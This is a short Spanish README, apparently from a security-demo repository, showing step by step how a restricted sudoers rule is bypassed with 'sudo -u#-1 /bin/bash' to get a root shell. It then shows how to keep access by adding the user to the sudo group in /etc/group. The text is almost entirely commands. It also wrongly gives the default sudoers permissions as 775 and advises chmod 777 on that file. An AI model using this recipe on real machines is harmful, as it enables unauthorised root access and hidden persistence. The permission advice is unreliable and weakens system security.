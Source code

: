 # sudo

#0.- Por defecto /etc/sudoers tiene permisos chmod 775. 

Intentamos para editar sin problemas el fichero sudoers $chmod 777 /etc/sudoers  y volvemos a restablecer después los privilegios chmod 755 /etc/sudoers

#1.- Editamos el fichero /etc/sudoers con 

$usermod -aG sudo antonio

$sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#4.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#5.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#6.- Modificamos la línea

antonio ALL=(ALL, !root) ALL

#7.- Explotamos la vulnerabilidad con sudo -u#-1

$chmod 755 /etc/sudoers

$sudo -u#-1 /bin/bash

#whoami

root

#8.- ya somos root!

<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/sudo/blob/master/sudo.png">

exit

#9.- Otro si: añadimos en la línea sudo de /etc/group a antonio y nos hacernos persistentes en la maquina:

sudo vim /etc/group

sudo : x:27:antonio

forzamos la escritura en group al salir con :wq!

$sudo antonio

$sudo su

#10.- ya somos del grupo sudo y podemos elevar a root!

Editamos y eliminamos de sudoers la linea
antonio ALL=(ALL, !root) ALL

